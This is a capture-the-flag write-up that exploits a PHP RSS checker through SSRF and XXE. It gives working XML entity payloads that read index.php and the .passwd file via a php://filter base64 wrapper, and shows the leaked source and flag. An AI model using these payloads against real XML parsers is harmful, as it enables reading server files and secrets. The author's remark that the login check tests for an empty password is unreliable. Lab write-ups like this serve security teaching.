




In this challenge we exploit `XXE` plus `SSRF` to retrieve the flag.

First, I saw there is this RSS checker, so I've created python webserver on my local machine:
```
python -m http.server 777
```
And also set ngrok tunnel, to port 777:
```
ngrok http 777
```

Then, i gave the address to the checker, in our case:
```
https://c54fb970181e.ngrok-free.app/xxe.xml
```
As you can see, there is `Blind SSRF`, and It get our files.



First, i gave this xml file, and saw it's a valid file, and also prints the `Title`, so let's try `XXE`
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
  <channel>
    <item>
      <title>Title</title>
    </item>
  </channel>
</rss>
```



When we try to leak the content of `index.php`, using this payload:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "file://index.php">]>

<rss version="2.0">
  <channel>
    <item>
      <title>&xxe;</title>
    </item>
  </channel>
</rss>
```
We get this response:
```
Warning: simplexml_load_string(file://index.php): failed to open stream: no suitable wrapper could be found in /challenge/web-serveur/ch29/index.php on line 32
``` 



Okay, so let's supply `php` wrapper, using the trick of base64 encoding:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>

<rss version="2.0">
  <channel>
    <item>
      <title>&xxe;</title>
    </item>
  </channel>
</rss>
```
And we get back `index.php` encoded in base64 format:
```
PD9waHAKCmVjaG8gJzxodG1sPic7CmVjaG8gJzxoZWFkZXI+PHRpdGxlPlhYRTwvdGl0bGU+PC9oZWFkZXI+JzsKZWNobyAnPGJvZHk+JzsKZWNobyAnPGgzPjxhIGhyZWY9Ij9hY3Rpb249Y2hlY2tlciI+Y2hlY2tlcjwvYT4mbmJzcDt8Jm5ic3A7PGEgaHJlZj0iP2FjdGlvbj1hdXRoIj5sb2dpbjwvYT48L2gzPjxociAvPic7CgppZiAoICEgaXNzZXQoJF9HRVRbJ2FjdGlvbiddKSApICRfR0VUWydhY3Rpb24nXT0iY2hlY2tlciI7CgppZigkX0dFVFsnYWN0aW9uJ10gPT0gImNoZWNrZXIiKXsKCiAgIGxpYnhtbF9kaXNhYmxlX2VudGl0eV9sb2FkZXIoZmFsc2UpOwogICBsaWJ4bWxfdXNlX2ludGVybmFsX2Vycm9ycyh0cnVlKTsKCiAgIGVjaG8gJzxoMj5SU1MgVmFsaWRpdHkgQ2hlY2tlcjwvaDI+CiAgIDxmb3JtIG1ldGhvZD0icG9zdCIgYWN0aW9uPSJpbmRleC5waHAiPgogICA8aW5wdXQgdHlwZT0idGV4dCIgbmFtZT0idXJsIiBwbGFjZWhvbGRlcj0iaHR0cDovL2hvc3QudGxkL3JzcyIgLz4KICAgPGlucHV0IHR5cGU9InN1Ym1pdCIgLz4KICAgPC9mb3JtPic7CgoKICAgIGlmKGlzc2V0KCRfUE9TVFsidXJsIl0pICYmICEoZW1wdHkoJF9QT1NUWyJ1cmwiXSkpKSB7CiAgICAgICAgJHVybCA9ICRfUE9TVFsidXJsIl07CiAgICAgICAgZWNobyAiPHA+VVJMIDogIi5odG1sZW50aXRpZXMoJHVybCkuIjwvcD4iOwogICAgICAgIHRyeSB7CiAgICAgICAgICAgICRjaCA9IGN1cmxfaW5pdCgiJHVybCIpOwogICAgICAgICAgICBjdXJsX3NldG9wdCgkY2gsIENVUkxPUFRfUkVUVVJOVFJBTlNGRVIsIDEpOwogICAgICAgICAgICBjdXJsX3NldG9wdCgkY2gsIENVUkxPUFRfVElNRU9VVCwgMyk7CiAgICAgICAgICAgIGN1cmxfc2V0b3B0KCRjaCwgQ1VSTE9QVF9DT05ORUNUVElNRU9VVCAsMCk7IAogICAgICAgICAgICAkaW5qZWN0ID0gY3VybF9leGVjKCAkY2ggKTsKICAgICAgICAgICAgY3VybF9jbG9zZSgkY2gpOwogICAgICAgICAgICAkc3RyaW5nID0gc2ltcGxleG1sX2xvYWRfc3RyaW5nKCRpbmplY3QsIG51bGwsIExJQlhNTF9OT0VOVCk7CiAgICAgICAgICAgIGlmICggISBpc19vYmplY3QoJHN0cmluZykgfHwgISRzdHJpbmcgfHwgISgkc3RyaW5nLT5jaGFubmVsKSB8fCAhKCRzdHJpbmctPmNoYW5uZWwtPml0ZW0pKSB0aHJvdyBuZXcgRXhjZXB0aW9uKCJlcnJvciIpOyAKCiAgICAgICAgICAgIGZvcmVhY2goJHN0cmluZy0+Y2hhbm5lbC0+aXRlbSBhcyAkcm93KXsKICAgICAgICAgICAgICAgIHByaW50ICI8YnIgLz4iOwogICAgICAgICAgICAgICAgcHJpbnQgIj09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PSI7CiAgICAgICAgICAgICAgICBwcmludCAiPGJyIC8+IjsKICAgICAgICAgICAgICAgIHByaW50IGh0bWxlbnRpdGllcygkcm93LT50aXRsZSk7CiAgICAgICAgICAgICAgICBwcmludCAiPGJyIC8+IjsKICAgICAgICAgICAgICAgIHByaW50ICI9PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT0iOwogICAgICAgICAgICAgICAgcHJpbnQgIjxiciAvPiI7CiAgICAgICAgICAgICAgICBwcmludCAiPGg0IHN0eWxlPSdjb2xvcjogZ3JlZW47Jz5YTUwgZG9jdW1lbnQgaXMgdmFsaWQ8L2g0PiI7CiAgICAgICAgICAgIH0KICAgICAgICB9IGNhdGNoIChFeGNlcHRpb24gJGUpIHsKICAgICAgICAgICAgcHJpbnQgIjxoNCBzdHlsZT0nY29sb3I6IHJlZDsnPlhNTCBkb2N1bWVudCBpcyBub3QgdmFsaWQ8L2g0PiI7CiAgICAgICAgfQoKICAgIH0KfQoKaWYoJF9HRVRbJ2FjdGlvbiddID09ICJhdXRoIil7CiAgICBlY2hvICc8c3Ryb25nPkxvZ2luPC9zdHJvbmc+PGJyIC8+PGZvcm0gTUVUSE9EPSJQT1NUIj4KICAgIDxpbnB1dCB0eXBlPSJ0ZXh0IiBuYW1lPSJ1c2VybmFtZSIgLz4KICAgIDxiciAvPgogICAgPGlucHV0IHR5cGU9InBhc3N3b3JkIiBuYW1lPSJwYXNzd29yZCIgLz4KICAgIDxiciAvPgogICAgPGlucHV0IHR5cGU9InN1Ym1pdCIgLz4KICAgIDwvZm9ybT4KICAgICc7CiAgICBpZihpc3NldCgkX1BPU1RbJ3VzZXJuYW1lJ10sICRfUE9TVFsncGFzc3dvcmQnXSkgJiYgIWVtcHR5KCRfUE9TVFsndXNlcm5hbWUnXSkgJiYgIWVtcHR5KCRfUE9TVFsncGFzc3dvcmQnXSkpCiAgICB7CiAgICAgICAgJHVzZXI9JF9QT1NUWyJ1c2VybmFtZSJdOwogICAgICAgICRwYXNzPSRfUE9TVFsicGFzc3dvcmQiXTsKICAgICAgICBpZigkdXNlciA9PT0gImFkbWluIiAmJiAkcGFzcyA9PT0gIiIuZmlsZV9nZXRfY29udGVudHMoIi5wYXNzd2QiKS4iIil7CiAgICAgICAgICAgIHByaW50ICJGbGFnOiAiLmZpbGVfZ2V0X2NvbnRlbnRzKCIucGFzc3dkIikuIjxiciAvPiI7CiAgICAgICAgfQoKICAgIH0KCn0KCgplY2hvICc8L2JvZHk+PC9odG1sPic7Cg==
```


When decoding we get:
```php
<?php

echo '<html>';
echo '<header><title>XXE</title></header>';
echo '<body>';
echo '<h3><a href="?action=checker">checker</a>&nbsp;|&nbsp;<a href="?action=auth">login</a></h3><hr />';

if ( ! isset($_GET['action']) ) $_GET['action']="checker";

if($_GET['action'] == "checker"){

   libxml_disable_entity_loader(false);
   libxml_use_internal_errors(true);

   echo '<h2>RSS Validity Checker</h2>
   <form method="post" action="index.php">
   <input type="text" name="url" placeholder="http://host.tld/rss" />
   <input type="submit" />
   </form>';


    if(isset($_POST["url"]) && !(empty($_POST["url"]))) {
        $url = $_POST["url"];
        echo "<p>URL : ".htmlentities($url)."</p>";
        try {
            $ch = curl_init("$url");
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            curl_setopt($ch, CURLOPT_TIMEOUT, 3);
            curl_setopt($ch, CURLOPT_CONNECTTIMEOUT ,0); 
            $inject = curl_exec( $ch );
            curl_close($ch);
            $string = simplexml_load_string($inject, null, LIBXML_NOENT);
            if ( ! is_object($string) || !$string || !($string->channel) || !($string->channel->item)) throw new Exception("error"); 

            foreach($string->channel->item as $row){
                print "<br />";
                print "===================================================";
                print "<br />";
                print htmlentities($row->title);
                print "<br />";
                print "===================================================";
                print "<br />";
                print "<h4 style='color: green;'>XML document is valid</h4>";
            }
        } catch (Exception $e) {
            print "<h4 style='color: red;'>XML document is not valid</h4>";
        }

    }
}

if($_GET['action'] == "auth"){
    echo '<strong>Login</strong><br /><form METHOD="POST">
    <input type="text" name="username" />
    <br />
    <input type="password" name="password" />
    <br />
    <input type="submit" />
    </form>
    ';
    if(isset($_POST['username'], $_POST['password']) && !empty($_POST['username']) && !empty($_POST['password']))
    {
        $user=$_POST["username"];
        $pass=$_POST["password"];
        if($user === "admin" && $pass === "".file_get_contents(".passwd").""){
            print "Flag: ".file_get_contents(".passwd")."<br />";
        }

    }

}


echo '</body></html>';
``` 
(look that it checks if the password isn't empty, and then checks if it does empty, so the `auth` is broken)

We can see these lines:
```php
file_get_contents(".passwd").""){
print "Flag: ".file_get_contents(".passwd")."<br />";
```

So, the flag is in `.passwd`.

Let's get the flag:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=.passwd">]>

<rss version="2.0">
  <channel>
    <item>
      <title>&xxe;</title>
    </item>
  </channel>
</rss>
```



We get back 
```
YzkzNGZlZDE3ZjFjYWMzMDQ1ZGRmZWNhMzRmMzMyYmMK
```
and after base64 decoding:
```
c934fed17f1cac3045ddfeca34f332bc
```

**Flag:** ***`c934fed17f1cac3045ddfeca34f332bc`***
